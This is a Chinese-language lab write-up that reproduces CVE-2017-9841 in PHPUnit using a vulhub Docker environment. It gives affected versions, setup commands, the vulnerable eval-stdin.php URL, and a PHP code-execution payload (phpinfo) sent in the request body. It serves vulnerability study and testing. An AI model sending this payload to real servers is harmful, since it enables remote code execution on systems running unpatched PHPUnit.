 # 0x00 软件介绍
PHPUnit：一款php下软件测试常用的框架

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：PHPUnit 5.6.2

# 0x02 环境搭建
靶机环境：Ubuntu 18.04.5 LTS

cd ./vulhub-master/  
cd ./phpunit/  
cd ./CVE-2017-9841/  
docker-compose build  
docker-compose up -d

# 0x03 利用条件
使用composer安装受影响版本的PHPUnit

# 0x04 影响版本
4.8.19 <= PHPUnit <= 4.8.27  
5.0.10 <= PHPUnit <= 5.6.2

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

访问http://ybdt.best:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php  
直接在请求中添加
```
<?phpinfo();?>
```
如下图  
![image](./0.png)  
结果如下  
![image](./1.png)  

# 0x06 踩坑记录
坑1：  
在本地搭建环境，网络可能会非常非常慢，建议找一台云服务器

# 0x07 参考链接
无
